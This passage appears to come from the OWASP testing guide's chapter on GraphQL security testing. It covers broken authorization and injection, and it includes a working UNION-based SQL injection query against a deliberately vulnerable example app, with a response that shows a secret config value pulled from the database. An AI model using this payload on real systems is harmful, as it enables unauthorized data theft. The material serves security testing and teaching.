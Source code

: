 All of the Dogs in the list belong to Benoit, and not to the auth token owner. It's possible to perform this type of action when proper authorization enforcement is not implemented.

### Injection

GraphQL is the implementation of the API layer of an application, and as such, it usually forwards the requests to a back end API or the database directly. This allows you to utilize any underlying vulnerability such as SQL injection, command injection, cross-site scripting, etc. Using GraphQL just changes the entry point of the malicious payload.

You can refer to other scenarios within the OWASP testing guide to get some ideas.

GraphQL also has scalars, which are usually used for custom data types that do not have native data types, such as DateTime. These types of data do not have out-of-the-box validation, making them good candidates for testing.

#### SQL Injection

The example application is vulnerable by design in the query `dogs(namePrefix: String, limit: Int = 500): [Dog!]`  since the parameter `namePrefix` is concatenated in the SQL query. Concatenating user input is a common malpractice of applications that can expose them to SQL injection.

The following query extracts information from the `CONFIG` table within the database:

```graphql
query sqli {
  dogs(namePrefix: "ab%' UNION ALL SELECT 50 AS ID, C.CFGVALUE AS NAME, NULL AS VETERINARY_ID FROM CONFIG C LIMIT ? -- ", limit: 1000) {
    id
    name
  }
}
```

The response to this query is:

```json
{
  "data": {
    "dogs": [
      {
        "id": 1,
        "name": "Abi"
      },
      {
        "id": 2,
        "name": "Abime"
      },
      {
        "id": 3,
        "name": "..."
      },
      {
        "id": 50,
        "name": "$Nf!S?(.}DtV2~:Txw6:?;D!M+Z34^"
      }
    ]
  }
}
```
